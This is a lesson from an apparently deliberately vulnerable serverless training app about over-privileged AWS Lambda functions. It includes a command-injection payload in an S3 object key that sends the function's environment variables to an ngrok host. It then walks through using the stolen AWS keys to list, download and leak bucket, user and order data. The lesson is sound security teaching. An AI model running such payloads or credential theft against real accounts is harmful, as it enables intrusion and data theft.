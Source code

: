 # LESSON #7: Over-Privileged Function

Maybe one of the most fundamental security vulnerabilities in serverless applications is over-privileged functions. [Previous research](https://www.protego.io/protego-labs-finds-nearly-all-serverless-application-functions-at-risk/) has found that almost all functions are configured with more permissions than what they actually need.

Let's see what we can do with that:

We already saw that one of the functions is vulnerable to command injection through an [insecure s3 configuration](../LESSONS/LESSON_04.md), so we can leverage that and steal the function's keys. By stealing the keys (AWS_SESSION_TOKEN, AWS_SECRET_ACCESS_KEY and AWS_ACCESS_KEY_ID), we will be able to assume the function's temporary execution role.

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;b=`env|base64 --wrap=0` --acl public-read;curl 0c971764.ngrok.io?data=$b;echo x.raw' --profile hacker
```

It's not hard to find the relevant keys in the base64 string that we got:

![alt base64-keys](https://i.imgur.com/ig8iV2J.png)

Decoding them (`echo <BASE64> | base64 --decode`) will reveal (partial info):
```
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_SESSION_TOKEN=FQXXXXXXXXXXXXXXXPJnxYa8D85UCLwAXXXXXXXXXXXXXXXRUkQWDwu4NMqrE+dcRXXXXXXXXXXXXXXXrTB6PxZzyfw0pDFUJHXXXXXXXXXXXXXXXAFfF6kR5AjFSQd/SkjymXXXXXXXXXXXXXXXO+1JfHtJBFqwI7VnaHMcCoDp4O/WcXXXXXXXXXXXXXXXCNW886DrHxciDCXXXXXXXXXXXXXXXZt3k9f3WuwI/FfXXXXXXXXXXXXXXXp43gtQYe3IV1sCpPs/kUneXXXXXXXXXXXXXXXiZGU63V79bpu/Dt3fzO0eSHAO6ii4t9/gBQ==
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/DVSA-SEND-RECEIPT-EMAIL
LAMBDA_TASK_ROOT=/var/task
LD_LIBRARY_PATH=/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
AWS_LAMBDA_LOG_STREAM_NAME=2018/12/23/[$LATEST]ce7961b403ba4b47806460db4bc62944
AWS_EXECUTION_ENV=AWS_Lambda_python2.7
AWS_LAMBDA_FUNCTION_NAME=DVSA-SEND-RECEIPT-EMAIL
PATH=/usr/local/bin:/usr/bin/:/bin:/opt/bin
SOURCE_EMAIL=tal+dvsa+noreply@protego.io
AWS_DEFAULT_REGION=us-east-1
PWD=/var/task
AWS_SECRET_ACCESS_KEY=xxxxxxxxxxxxxxxI8g7+XkMv/6tuC7xxxxxxxxxx
LAMBDA_RUNTIME_DIR=/var/runtime
LANG=en_US.UTF-8
AWS_REGION=us-east-1
ORDERS_TABLE=DVSA-ORDERS-DB
AWS_ACCESS_KEY_ID=ASIAYXXXXXXXXXXXXXXX
PYTHONPATH=/var/runtime
_HANDLER=lambda_function.lambda_handler
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=256
```
Let's copy the relevant data into environment variables:
```
export AWS_SECRET_ACCESS_KEY = "..."
export AWS_ACCESS_KEY_ID = "..."
export AWS_SESSION_TOKEN = "..."
```

Or, into our AWS credentials - `~/.aws/credentials` (which is the default location):
![alt stolen-keys](https://i.imgur.com/tFXFZEj.png)

By default, temporary security credentials for an IAM user are valid for a maximum of 12 hours (and therefore, long gone in the screenshot). In this time frame, we can use these keys to run any AWS command that is aligned with the functions permissions. Since the function is (way) over-privileged, we can start stealing sensitive data and performing actions on the account.

For example:

(1) listing all files on s3:
![alt ls-bucket](https://i.imgur.com/Cg8cBYs.png)

(2) downloading a file from the bucket:
![alt download-receipt](https://i.imgur.com/3hMxfZP.png)

We can of course, also delete files. But, we are not limited to the S3! Let's explore further:

(3) leaking all users:
![alt leak-users](https://i.imgur.com/JVkreVB.png)

(4) orders from dynamodb:
![alt leak-orders](https://i.imgur.com/WdBSzVG.png)

And many more. I'll leave that to you to explore.

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

